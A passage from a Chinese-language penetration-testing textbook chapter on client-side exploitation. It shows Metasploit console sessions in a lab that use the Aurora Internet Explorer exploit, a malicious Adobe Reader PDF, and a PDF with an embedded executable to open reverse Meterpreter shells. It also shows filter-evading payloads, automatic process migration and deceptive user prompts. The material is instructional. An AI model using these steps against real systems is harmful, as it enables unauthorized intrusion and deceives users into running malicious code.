




## 第十章。客户端利用

到目前为止，我们研究的漏洞都是易于发现的，而且都出现在真实的项目中。在渗透测试中，发现监听端口上存在漏洞的服务、未更改的默认密码、配置错误的 Web 服务器等情况是很常见的。

然而，那些在安全姿态上投入大量时间和精力的客户可能不会受到这类漏洞的影响。他们可能已经安装了所有安全补丁；他们可能会定期审计密码，并删除任何容易猜测或破解的密码。他们可能会控制用户角色：普通用户可能没有在他们的工作站上拥有管理权限，任何安装的软件都会由安全人员调查和维护。因此，甚至可能没有太多服务可供攻击。

然而，尽管部署了最新和最先进的安全技术，并雇佣了破解安全团队，高知名度的公司（对攻击者可能有高回报）仍然遭受入侵。在本章中，我们将研究一些不需要直接网络访问的不同类型的攻击。我们将研究针对系统上的本地软件的攻击——这些软件不在监听端口上。

因为我们不会直接攻击计算机或监听端口，而且我们需要想出另一种方式来攻击公司边界内的设备，因此我们需要相应地选择我们的载荷。虽然对于直接暴露在互联网上或在本地网络上监听端口的系统，正常的绑定 shell 可能运行良好，但在这里，我们至少会受限于反向连接。

但首先让我们深入了解 Metasploit 载荷系统，并查看一些对您可能有用的其他载荷。

## 使用 Metasploit 载荷绕过过滤器

在之前的章节中，我们讨论了 Metasploit 载荷系统，包括单个与分阶段载荷以及绑定 shell 与反向 shell。我们还简要讨论了 Metasploit 的 Meterpreter 载荷（我们将在第十三章中深入讨论）。当您在模块上使用命令 `show payloads` 时，您可能会看到一些对您来说可能是新的载荷。在本节中，我们将看一些可以用来绕过您在渗透测试中遇到的过滤技术的载荷。

### 所有端口

我们的网络设置是这样的，我们的攻击和目标虚拟机在同一个网络上，没有防火墙或其他过滤器阻止通信。然而，在您的渗透测试职业生涯中，您可能会遇到各种过滤设置的客户。即使是反向连接也可能无法穿过过滤器并连接回您的攻击机器的任何端口。例如，客户网络可能不允许流量在端口 4444 上离开网络，这是 Metasploit *reverse_tcp* 载荷的默认端口。它可能只允许流量通过特定端口出去，比如 80 或 443 用于网络流量。

如果我们知道哪些端口可以通过过滤器，我们可以将`LPORT`选项设置为相关端口。Metasploit 的*reverse_tcp_allports*有效负载可以帮助我们找到可以连接的端口。顾名思义，这种有效负载通信方式会尝试所有端口，直到找到成功连接回 Metasploit 的端口。

让我们通过*windows/shell/reverse_tcp_allports*有效负载来测试这一功能，如示例 10-1 所示。我们正在使用 MS08-067 漏洞攻击 Windows XP。

示例 10-1. Windows/shell/reverse_tcp_allports 有效负载

```
msf  exploit(ms08_067_netapi) > **set payload windows/shell/reverse_tcp_allports**
payload => windows/shell/reverse_tcp_allports
msf  exploit(ms08_067_netapi) > **show options**
--*snip*--
Payload options (windows/shell/reverse_tcp_allports):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
   LHOST     192.168.20.9     yes       The listen address
  ❶LPORT     1                yes       The starting port number to connect back on
--*snip*--
msf  exploit(ms08_067_netapi) > **exploit**

[*] Started reverse handler on 192.168.20.9:1
--*snip*--
[*] Sending encoded stage (267 bytes) to 192.168.20.10
[*] Command shell session 5 opened (192.168.20.9:1 -> 192.168.20.10:1100) at 2015-05-14
22:13:20 -0400 ❷
```

在这里，`LPORT` ❶选项指定了第一个要尝试的端口。如果该端口无法连接，有效负载将尝试后续的每个端口，直到连接成功。如果有效负载尝试了 65535 个端口仍未成功，它将从端口 1 重新开始，并无限循环。

因为没有过滤器阻挡我们的流量，Metasploit 尝试的第一个端口——端口 1，成功建立了连接，如❷所示。虽然这种有效负载在很多情况下都能工作，但某些过滤技术无论它尝试连接哪个端口，都会将其拦截。这个有效负载的一个缺点是，它可能需要运行很长时间来尝试找到一个未被过滤的端口。如果用户看到应用程序卡住，可能会在有效负载成功之前关闭它。

### HTTP 和 HTTPS 有效负载

虽然有些过滤器可能允许在某些端口上通过所有流量，但最先进的过滤系统使用内容检查来筛选合法的协议特定流量。这可能会给我们的有效负载带来问题。即使我们的 Meterpreter 有效负载通信是加密的——内容检查无法识别“这是 Metasploit，去开除它！”——过滤器还是能识别出从端口 80 发送的流量不符合 HTTP 规范。

为了解决这个问题，Metasploit 的开发者创建了 HTTP 和 HTTPS 有效负载。这些有效负载遵循 HTTP 和 HTTPS 规范，即使是内容检查过滤器也会认为我们的流量是合法的。此外，这些有效负载是基于数据包的，而不像 TCP 有效负载那样是基于流的。这意味着它们不局限于特定连接。如果你暂时丢失网络通信并失去所有 Metasploit 会话，HTTP 和 HTTPS 会话可以恢复并重新连接。（我们将在 Java 漏洞中看到使用这些有效负载的示例。）

虽然 HTTP 和 HTTPS 负载可以通过大多数过滤技术，但你可能会遇到更复杂的过滤情况。例如，我曾测试过一个客户的环境，只有当域验证用户启动 Internet Explorer 进程时，才能访问互联网。员工可以上网进行业务操作，但他们有些限制。例如，他们无法使用即时通讯客户端。虽然这可能让一些员工感到不满，但从安全角度来看这是一个好主意。即使我们成功利用了某些漏洞，即便是 HTTP 和 HTTPS 负载也无法连接到互联网。（在浏览器利用中，我们将讨论一些攻击方法，这些方法可以在合法的域用户登录时，利用 Internet Explorer 进程连接外部网络。）

Meterpreter HTTP 和 Meterpreter HTTPS 使用 Internet Explorer 的代理设置来穿越必要的代理，连接到互联网。因此，如果你的目标进程是以*System*用户身份运行，这些代理设置可能未被定义，导致这些负载失败。

### 注意

还有一个 Meterpreter 负载——reverse_https_proxy，允许攻击者手动添加任何必要的代理设置。

## 客户端攻击

现在让我们将注意力转向客户端攻击的实施。我们不再直接攻击监听端口的服务，而是创建各种恶意文件，当这些文件在目标机器上的脆弱软件中打开时，将导致系统被攻陷。

到目前为止，我们的所有攻击都涉及某种服务在端口上监听，无论是 Web 服务器、FTP 服务器、SMB 服务器，还是其他服务。当我们开始渗透测试时，首先做的事情之一就是对目标进行端口扫描，以查看哪些服务正在监听。渗透测试开始时，潜在的漏洞几乎是无限的。

当我们开始运行工具、进行手动分析和研究时，利用的可能性逐渐减少，直到我们剩下的目标系统上的问题变得有限。这些问题通常是服务器端问题——监听端口的服务。我们缺少的是没有监听端口的潜在脆弱软件——客户端软件。

像网页浏览器、文档查看器、音乐播放器等软件，面临与 Web 服务器、邮件服务器以及其他所有基于网络的程序相同的问题。

当然，由于客户端软件不在网络上监听，我们无法直接攻击它，但一般原则是一样的。如果我们能向程序发送意外的输入以触发漏洞，就可以劫持执行，就像我们在第八章中利用服务器端程序一样。由于我们不能通过网络直接向客户端程序发送输入，我们必须诱使用户打开恶意文件。

随着安全问题变得越来越严肃，且服务器端的漏洞从面向互联网的角度变得更难发现，客户端漏洞利用已成为获取即使是精心保护的内部网络访问的关键。客户端攻击非常适用于缺乏面向互联网 IP 地址的资产，如工作站或移动设备。虽然从互联网的角度我们无法直接访问这些系统，但如果我们能够劫持执行，它们通常可以连接到互联网或连接到一个渗透测试者控制的系统。

不幸的是，客户端攻击的成功依赖于某种方式确保我们的漏洞利用被下载并在易受攻击的产品中打开。在下一章中，我们将探讨一些技巧，诱使用户打开恶意文件；现在我们先来看看一些客户端漏洞利用，从最流行的客户端漏洞利用目标——网页浏览器开始。

### 浏览器漏洞利用

网页浏览器由渲染网页的代码组成。就像我们可以向服务器软件发送格式不正确的输入一样，如果我们打开一个带有恶意代码的网页来触发安全问题，我们就有可能劫持浏览器中的执行并执行有效载荷。尽管传递方式有所不同，但基本概念是相同的。所有常见的浏览器都曾受到过安全问题的影响——Internet Explorer、Firefox，甚至是 Mobile Safari。

通过浏览器漏洞利用越狱 iPhone

过去，浏览器漏洞利用在 iPhone 越狱中起到了关键作用。虽然后来的 iOS 版本实施了一项名为 *强制代码签名* 的安全功能，要求所有执行的代码都必须经过 Apple 审批，但 Mobile Safari（iPhone 上的网页浏览器）则被豁免了，因为它必须能够运行未签名的代码来渲染网页。Apple 不可能浏览整个互联网并签署所有不含恶意代码的页面。如果 iPhone 无法查看网页，大家就只能去买 Android 手机——这是 Apple 最不想看到的。iOS 4 在 Mobile Safari 中渲染 PDF 文件时，其中一个字体包含了一个安全漏洞。这个客户端攻击允许越狱者仅仅通过诱骗用户在浏览器中打开一个恶意链接，就能在 iPhone 上获得立足点。

让我们考虑一个著名的 Internet Explorer 漏洞。Aurora 漏洞利用在 2010 年被用于攻击像 Google、Adobe 和 Yahoo! 这样的大公司。在 Aurora 攻击发生时，Internet Explorer 存在一个 *零日漏洞*——即尚未修补的漏洞。（即使是完全更新版本的 Internet Explorer，只要用户被诱导打开恶意网页，触发漏洞，也可能被攻破。）

微软已发布针对 Internet Explorer 的补丁，但像其他安全补丁一样，用户有时会忽略更新他们的浏览器，并且安装在 Windows XP 目标系统上的 Internet Explorer 版本并没有包含防止 Aurora 漏洞的必要安全补丁。

我们将使用 Metasploit 通过攻击脆弱的浏览器来控制目标机器，方法是利用 Aurora Metasploit 模块 *exploit/windows/browser/ms10_002_aurora*，具体示例请参见 示例 10-2。

### 注意

客户端 Metasploit 模块与我们之前使用的服务器端模块基本相同，只是选项稍有不同：我们不是向网络上的远程主机发送漏洞利用代码，而是设置一个服务器并等待浏览器访问我们的页面。

示例 10-2. Internet Explorer Aurora Metasploit 模块

```
msf > **use exploit/windows/browser/ms10_002_aurora**
msf  exploit(ms10_002_aurora) > **show options**

Module options (exploit/windows/browser/ms10_002_aurora):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
  ❶SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address
                                            on the local machine or 0.0.0.0
  ❷SRVPORT     8080             yes       The local port to listen on.
  ❸SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly
                                            generated)
   SSLVersion  SSL3             no        Specify the version of SSL that should be used
                                            (accepted: SSL2, SSL3, TLS1)
  ❹URIPATH                      no        The URI to use for this exploit (default is random)

Exploit target:

   Id  Name
   --  ----
  ❺0   Automatic
```

请注意，在该模块的选项中，我们看到的是 `SRVHOST` ❶ 选项，而不是 `RHOST`。这是服务器的本地 IP 地址。默认情况下，此地址设置为 0.0.0.0，以便监听本地系统上的所有地址。监听的默认端口是 `SRVPORT` ❷ 选项，端口号为 8080。只要没有其他程序占用该端口，你可以将其更改为 80（Web 服务器的默认端口）。你甚至可以使用 SSL 连接 ❸。

如果我们设置了 `URIPATH` ❹ 选项，就可以为恶意页面指定一个特定的 URL。如果我们没有在这里设置任何内容，则会使用一个随机 URL。由于漏洞利用完全在浏览器内发生，因此我们的攻击无论 Windows 版本如何 ❺ 都能生效，只要 Internet Explorer 存在 Aurora 漏洞。

接下来，我们为我们的环境设置模块选项。该模块的有效载荷与我们之前看到的 Windows 有效载荷相同。利用浏览器的方式与利用系统中的其他程序没有区别，我们可以运行相同的 shellcode。在本示例中，我们将使用 *windows/meterpreter/reverse_tcp* 有效载荷来演示一些客户端攻击概念，具体内容请参见 示例 10-3。

### 注意

确保 apache2 Web 服务器没有在端口 80 上运行，使用命令 `service apache2 stop` 停止它。

示例 10-3. 设置选项并启动 Aurora 模块

```
msf  exploit(ms10_002_aurora) > **set SRVHOST 192.168.20.9**
SRVHOST => 192.168.20.9
msf  exploit(ms10_002_aurora) > **set SRVPORT 80**
SRVPORT => 80
msf  exploit(ms10_002_aurora) > **set URIPATH aurora**
URIPATH => **aurora**
msf  exploit(ms10_002_aurora) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(ms10_002_aurora) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(ms10_002_aurora) > **exploit**
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.20.9:4444 ❶
[*] Using URL: http://192.168.20.9:80/aurora ❷
[*] Server started.
```

正如你在 示例 10-3 中看到的，一旦我们设置了选项并运行该模块，后台将在所选的 `SRVPORT` 上启动一个 Web 服务器，并在所选的 `URIPATH` 下显示 ❷ 所示内容。此外，还会为所选的有效载荷设置处理程序 ❶。

现在我们将使用 Windows XP 目标机器上的 Internet Explorer 浏览器访问恶意网站。在 Metasploit 中，你应该看到页面已经被服务，并且正在尝试利用漏洞，如 示例 10-4 所示。尽管我们的 Windows XP 浏览器存在漏洞，但可能需要尝试几次才能成功利用浏览器。

利用 Aurora 漏洞并不像我们在本书中讨论的其他漏洞那样可靠。如果 Internet Explorer 崩溃，但你没有收到会话，尝试再次浏览到漏洞页面。

示例 10-4. 接收客户端会话

```
msf  exploit(ms10_002_aurora) > [*] 192.168.20.10      ms10_002_aurora -
Sending Internet Explorer "Aurora" Memory Corruption
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1376) at
2015-05-05 20:23:25 -0400 ❶
```

尽管这个漏洞利用可能不是每次都能成功，目标浏览器存在漏洞，尝试几次应该能够成功。如果漏洞利用成功，你将获得一个会话，如 ❶ 所示。我们不会自动进入会话。使用 **`sessions -i`** `<session id>` 来与 Meterpreter 会话交互。

尽管我们已经成功利用了浏览器并在目标系统上获得了立足点，但我们的挑战并未结束。如果你回到 Windows XP 机器并尝试继续使用 Internet Explorer，你会发现它不再工作。获取会话的过程中涉及的利用操作已经使浏览器无法使用。对我们来说的问题是，那些被诱骗访问我们恶意网站的用户自然会希望继续使用浏览器。他们可能会强制退出浏览器，或者浏览器可能因其不稳定状态而自行崩溃。当浏览器关闭时，我们会失去 Meterpreter 会话。

```
msf  exploit(ms10_002_aurora) > [*] 192.168.20.10 - Meterpreter session 1 closed.  Reason: Died❶
```

我们的 Meterpreter 有效载荷完全存在于被利用进程的内存中。如果浏览器崩溃或被用户关闭，我们的会话也会随之终止，如 ❶ 所示。我们可以像获得立足点一样迅速失去对系统的控制。

我们需要一种方法保持 Meterpreter 会话存活，即使被利用的进程——在这个例子中是 Internet Explorer 浏览器——终止。但首先，我们需要停止 Metasploit 网络服务器，以便我们可以对恶意页面进行一些修改，解决这个问题，如 示例 10-5 所示。

示例 10-5. 在 Metasploit 中终止后台作业

```
msf  exploit(ms10_002_aurora) > **jobs**❶

Jobs
====

  Id  Name
  --  ----
  0   Exploit: windows/browser/ms10_002_aurora

msf  exploit(ms10_002_aurora) > **kill 0**❷
Stopping job: 0...

[*] Server stopped.
```

我们可以通过在 Metasploit 中输入 **`jobs`** ❶ 查看后台运行的所有任务。要停止后台运行的任务，可以输入 **`kill <`**`job number`**`>`** ❷。

因为 Meterpreter 完全存在于被利用进程的内存中，而该进程注定会终止，我们需要某种方法将会话从 Internet Explorer 进程转移到一个更可能持续存在的进程中。

#### 在 Meterpreter 会话中运行脚本

与网络攻击不同，当我们的攻击成功时，我们可以立刻看到会话；但在进行客户端攻击时，我们必须等到用户访问我们的恶意页面。即便我们找到了一种将 Meterpreter 迁移到另一个进程的方法，会话仍然随时可能进入。在渗透测试过程中，我们不能分心，否则会有丢失会话的风险。如果我们能在 Meterpreter 会话中自动运行命令，那将是理想的，这样我们就不需要闲坐着等待浏览器访问我们的恶意服务器。

可以在 Kali 的 */usr/share/metasploit-framework/scripts/meterpreter* 路径下找到可以在打开的会话中运行的 Meterpreter 脚本。我们将在第十三章中查看更多 Meterpreter 脚本的示例，但现在我们先看一个在当前场景下非常有效的脚本。脚本*migrate.rb*允许我们将 Meterpreter 从一个进程的内存迁移到另一个进程的内存，这正是我们在这里需要的功能。要在活动的 Meterpreter 会话中运行一个脚本，输入**`run <`**`script name`**`>`**，如示例 10-6 所示。你可能会看到如何正确使用该脚本的帮助信息，就像我们在这里看到的那样。

示例 10-6. 运行 Meterpreter 脚本

```
meterpreter > **run migrate**

OPTIONS:

    -f        Launch a process and migrate into the new process ❶
    -h        Help menu.
    -k        Kill original process.
    -n <opt>  Migrate into the first process with this executable name (explorer.exe) ❷
    -p <opt>  PID to migrate to. ❸
```

当我们尝试运行*migrate*脚本时，会看到几个选项。我们可以启动一个新进程并迁移到该进程中，如❶所示；也可以迁移到一个指定名称的进程中❷；或者通过进程 ID 选择进程，如❸所示。

#### 高级参数

除了模块和有效载荷选项外，Metasploit 模块还具有高级参数。我们可以使用命令`show advanced`查看可用的高级参数，如示例 10-7 所示。

示例 10-7. Metasploit 高级参数

```
msf  exploit(ms10_002_aurora) > **show advanced**

Module advanced options:

   Name           : ContextInformationFile
   Current Setting:
   Description    : The information file that contains context information

   --*snip*--
   Name           : AutoRunScript❶
   Current Setting:
   Description    : A script to run automatically on session creation.

   --*snip*--
   Name           : WORKSPACE
   Current Setting:
   Description    : Specify the workspace for this module
```

我们选择的有效载荷的高级设置之一是`AutoRunScript` ❶。当设置此参数时，它将允许我们在会话打开时自动运行 Meterpreter 脚本。

我们可以设置该参数，使得每当 Meterpreter 会话开启时，自动运行*migrate*脚本。这样，当浏览器崩溃时，只要*migrate*脚本完成，我们的会话就能避免崩溃的影响。此外，通过自动运行脚本，我们可以在用户访问恶意页面时随时迁移，而不管你是否在关注 Msfconsole，当会话进入时，如示例 10-8 所示。

示例 10-8. 设置`AutoRunScript`参数

```
msf  exploit(ms10_002_aurora) > **set AutoRunScript migrate -f**❶
AutoRunScript => migrate -f
msf  exploit(ms10_002_aurora) > **exploit**
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.20.9:4444
[*] Using URL: http://192.168.20.9:80/aurora
[*] Server started.
```

要设置高级参数，请使用语法`set <`*`parameter to set`*`> <`*`value`*`>`（与设置常规选项相同）。例如，在示例 10-8 中，我们告诉*migrate*脚本通过`-f`标志 ❶生成一个新进程并迁移到该进程中，然后我们再次启动恶意服务器。

现在，再次从 Windows XP 目标系统浏览到恶意页面（见示例 10-9）。

示例 10-9. 自动迁移

```
msf  exploit(ms10_002_aurora) > [*] 192.168.20.10       ms10_002_aurora - Sending Internet Explorer "Aurora" Memory Corruption
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at 2015-05-05 20:26:15 -0400
[*] Session ID 2 (192.168.20.9:4444 -> 192.168.20.10:1422) processing AutoRunScript 'migrate -f' ❶
[*] Current server process: iexplore.exe (3476)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 484
[+] Successfully migrated to process ❷
```

这次我们得到了一个会话，表示`AutoRunScript`参数已自动处理 ❶。*migrate*脚本生成了一个*notepad.exe*进程，并迁移到了该进程中 ❷。当 Internet Explorer 崩溃时，我们的会话仍然保持活跃。

尽管在使用浏览器漏洞时自动迁移是一个好主意，但迁移的过程仍然需要几秒钟——这几秒钟内，用户可能会关闭浏览器并结束我们的会话。幸运的是，下面显示的高级 Meterpreter 选项`PrependMigrate`将更快地进行迁移，甚至在有效负载运行之前。

```
Name           : PrependMigrate
Current Setting: false
Description    : Spawns and runs shellcode in new process
```

你可以将此选项设置为`true`，作为我们之前使用的`AutoRunScript`的替代方案。

这只是浏览器漏洞利用的一个例子。Metasploit 还有其他模块用于利用 Internet Explorer 以及其他流行网页浏览器中的漏洞。随着更多组织加固了外部安全防护，浏览器漏洞利用已经成为许多渗透测试和攻击中的突破口。

### 注意

Aurora 漏洞在 2010 年已被修复，但用户和组织在保持浏览器更新方面做得不好，因此这个漏洞利用至今仍能找到目标。此外，尽管新型操作系统远程漏洞较为罕见，但像 Internet Explorer 这样的大型浏览器常常成为新型客户端攻击的受害者。使用如第四章所述的 Msfupdate 获取最新的模块，这些模块可能针对的新漏洞有些甚至在模块发布时，供应商还未修复。请注意，运行 Msfupdate 可能会影响 Metasploit 的工作，这可能使你在阅读本书时遇到困难。因此，建议你在读完整本书后再更新 Metasploit。

现在，让我们来看一些其他的客户端软件，它们也可能被利用来在目标系统上执行命令。

### PDF 漏洞利用

可移植文档格式（PDF）软件也可以被利用。如果用户被诱导在易受攻击的查看器中打开恶意 PDF，程序就可能被利用。

Windows 系统中最流行的 PDF 查看器是 Adobe Reader。像浏览器一样，Adobe Reader 的历史上充满了安全漏洞。同样像浏览器，即使有补丁管理流程，定期更新操作系统时，PDF 软件经常被忽视，仍然停留在较旧且易受攻击的版本。

#### 利用 PDF 漏洞

我们的 Windows XP 目标系统安装了过时版本的 Adobe Reader 8.1.2，存在 CVE-2008-2992 漏洞，这是一个基于栈的缓冲区溢出漏洞。对应的 Metasploit 模块是 *exploit/windows/fileformat/adobe_utilprintf*。

这个模块的选项与我们之前看到的有些不同，如在示例 10-10 中所示。这是一个客户端攻击，因此没有`RHOST`选项，但与我们的浏览器攻击不同，这里也没有`SRVHOST`或`SRVPORT`选项。这个模块仅仅是生成一个恶意 PDF；托管它并交付以及设置有效载荷处理程序则由我们来完成。当然，我们具备完成这两项任务所需的所有技能。

示例 10-10. 一个 Metasploit PDF 漏洞

```
msf > **use exploit/windows/fileformat/adobe_utilprintf**
msf  exploit(adobe_utilprintf) > **show options**

Module options (exploit/windows/fileformat/adobe_utilprintf):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
  ❶FILENAME  msf.pdf          yes       The file name.

Exploit target:

   Id  Name
   --  ----
  ❷0   Adobe Reader v8.1.2 (Windows XP SP3 English)

msf  exploit(adobe_utilprintf) > **exploit**

[*] Creating 'msf.pdf' file...
[+] msf.pdf stored at /root/.msf4/local/msf.pdf ❸
```

如你所见，PDF 漏洞的唯一选项是要生成的恶意文件的名称❶。我们可以保留默认值，*msf.pdf*。在这个例子中，我们将让 Metasploit 使用默认的有效载荷，*windows/meterpreter/reverse_tcp*，监听端口 4444。当我们输入**`exploit`**时，Metasploit 会生成一个 PDF，利用 Windows XP SP3 英文版中 Adobe Reader 的易受攻击版本的漏洞❷。这个恶意 PDF 被保存在 */root/.msf4/local/msf.pdf* ❸。

现在，我们需要服务这个 PDF 并为有效载荷设置处理程序，如在示例 10-11 中所示。

示例 10-11. 服务恶意 PDF 并使用处理程序

```
msf  exploit(adobe_utilprintf) > **cp /root/.msf4/local/msf.pdf /var/www**
[*] exec: cp /root/.msf4/local/msf.pdf /var/www

msf  exploit(adobe_utilprintf) > **service apache2 start**
[*] exec service apache2 start

Starting web server: apache2.

msf  exploit(adobe_utilprintf) > **use multi/handler**❶
msf  exploit(handler) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(handler) > **set LHOST 192.168.20.9**
lhost => 192.168.20.9
msf  exploit(handler) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at
2015-05-05 20:26:15 -0400 ❷
```

我们将文件复制到 Apache web 服务器的文件夹中，并启动服务器（如果服务器还没有运行的话）。稍后我们会讨论如何诱使用户打开恶意文件，但现在我们仅仅是在 Windows XP 目标机上使用 Adobe Reader 8.1.2 打开恶意 PDF。不过，首先，我们需要为有效载荷设置处理程序。我们可以使用 *multi/handler* ❶ 模块，正如我们在第四章中学到的那样。（如果 Aurora 作业的处理程序也在监听 4444 端口，请确保终止该作业，以便释放端口供 *multi/handler* 使用）。当我们打开恶意 PDF 时，我们再次收到一个会话 ❷。

通常像这样的攻击我们不会只针对一个用户。为了获得最佳效果，我们可能会将这个恶意 PDF 作为社会工程学攻击的一部分，如下一章所述，通过发送几个甚至数百个恶意 PDF 来诱使用户打开它们。我们之前设置的*multi/handler*监听器会在接收到第一个连接时关闭，这样就会错过其他用户打开 PDF 后可能产生的连接。如果我们能够保持监听器打开，以捕获更多的传入连接，那就更好了。

事实证明，*multi/handler*模块的一个高级选项解决了这个问题。如示例 10-12 所示，默认情况下，`ExitOnSession`选项被设置为`true`，它指定监听器在收到会话后是否关闭。如果我们将此选项设置为`false`，监听器将保持打开状态，并允许我们用一个处理程序捕获多个会话。

示例 10-12. 保持处理程序开放以进行多次会话

```
msf exploit(handler) > **show advanced**
Module advanced options:
--*snip*--
   Name           : ExitOnSession
   Current Setting: true
   Description    : Return from the exploit after a session has been created
msf exploit(handler) > **set ExitOnSession false**❶
ExitOnSession => false
msf exploit(handler) > **exploit -j**❷
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

按照通常的方式将`ExitOnSession`设置为`false` ❶。这个选项的副作用是，如果我们，例如，利用漏洞并在前台启动监听器，它将永远不会关闭，这样我们就会在没有 Msfconsole 提示符的情况下被卡住。因此，Metasploit 会抱怨并指出你应该在使用`exploit`时使用`-j`选项 ❷，将处理程序作为后台任务运行。这样，你可以在后台捕获任何传入的 shell 的同时继续使用 Msfconsole。要关闭处理程序，可以使用`jobs`，然后使用`kill` *`<任务编号>`*，如我们在 Aurora 示例中所做的那样。

这个漏洞和前面讨论的 Aurora 浏览器示例都依赖于缺少的安全补丁。在这里，我们利用了一个安全漏洞，通过欺骗用户让我们运行恶意代码，从而劫持了程序的控制权。如果用户允许我们运行代码，PDF 软件中的漏洞就变得不再必要。

#### PDF 嵌入的可执行文件

现在进行另一个 PDF 攻击：这次我们将在 PDF 中嵌入一个恶意可执行文件。相应的 Metasploit 模块是*exploit/windows/fileformat/adobe_pdf_embedded_exe*，如示例 10-13 所示。生成的 PDF 不会在打开时立刻利用软件漏洞，而是会提示用户允许运行嵌入的文件。我们的攻击成功与否取决于用户是否允许执行我们嵌入的可执行文件。

示例 10-13. PDF 嵌入的 EXE 模块

```
msf > **use exploit/windows/fileformat/adobe_pdf_embedded_exe**
msf  exploit(adobe_pdf_embedded_exe) > **show options**

Module options (exploit/windows/fileformat/adobe_pdf_embedded_exe):

   Name            Current Setting                        Required  Description
   ----            ---------------                        --------  -----------
  ❶EXENAME                                                no        The Name of payload exe.
  ❷FILENAME        evil.pdf                               no        The output filename.
  ❸INFILENAME                                             yes       The Input PDF filename.
  ❹LAUNCH_MESSAGE  To view the encrypted content please   no        The message to display in
                     tick the "Do not show this message               the File: area
                     again" box and press Open.
--*snip*--
```

该模块允许我们通过`EXENAME` ❶选项指定一个预构建的可执行文件。如果我们不设置此选项，我们可以嵌入一个从我们选择的任何有效载荷创建的.*exe*文件。我们还可以将文件名更改为任何我们喜欢的名字，或者保持默认值 ❷不变。要使用此模块，我们必须使用一个输入 PDF 来设置`INFILENAME` ❸选项。`LAUNCH_MESSAGE` ❹选项是将显示给用户的文本，作为运行可执行文件的提示。

设置相关选项，如示例 10-14 所示。

示例 10-14. 设置模块选项并创建恶意 PDF

```
msf  exploit(adobe_pdf_embedded_exe) > **set INFILENAME** **/usr/share/set/readme/User_Manual.pdf**❶
INFILENAME => /usr/share/set/readme/User_Manual.pdf
msf  exploit(adobe_pdf_embedded_exe) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
